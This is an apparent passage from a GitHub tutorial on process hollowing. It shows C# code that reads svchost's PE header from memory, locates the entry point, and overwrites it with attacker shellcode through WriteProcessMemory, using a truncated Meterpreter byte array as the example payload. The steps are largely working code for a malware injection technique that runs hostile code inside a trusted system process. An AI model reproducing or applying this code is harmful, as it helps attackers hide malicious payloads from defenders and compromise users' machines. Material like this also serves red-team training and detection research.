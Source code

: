 ## 🔹 Step 4 – Parsing the PE Header

- Need the **Entry Point RVA** from Optional Header.
- Steps:
    1. Read first 0x200 bytes.
    2. Locate `e_lfanew` at offset `0x3C`.
    3. EntryPoint RVA = `e_lfanew + 0x28`.

```csharp
byte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
```

- Locate **EntryPoint RVA**:
    
    <img width="801" height="314" alt="image" src="https://github.com/user-attachments/assets/ed0e43fe-791a-4fae-a406-8e9c58d9497a" />

    
    ```csharp
    uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
    uint opthdr = e_lfanew_offset + 0x28;
    uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
    
    IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (ulong)svchostBase);
    
    ```
    

---

## 🔹 Step 5 – Writing Shellcode

- API: `WriteProcessMemory`
- Overwrites EntryPoint with attacker’s shellcode.
- Use **`WriteProcessMemory`** to overwrite EntryPoint:

**Declaration**

```csharp
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(
    IntPtr hProcess, IntPtr lpBaseAddress,
    byte[] lpBuffer, Int32 nSize,
    out IntPtr lpNumberOfBytesWritten);
```

**Usage**

```c

// Example: Meterpreter shellcode
byte[] buf = new byte[] { 0xfc, 0x48, 0x83, 0xe4, ... };

WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
```

---
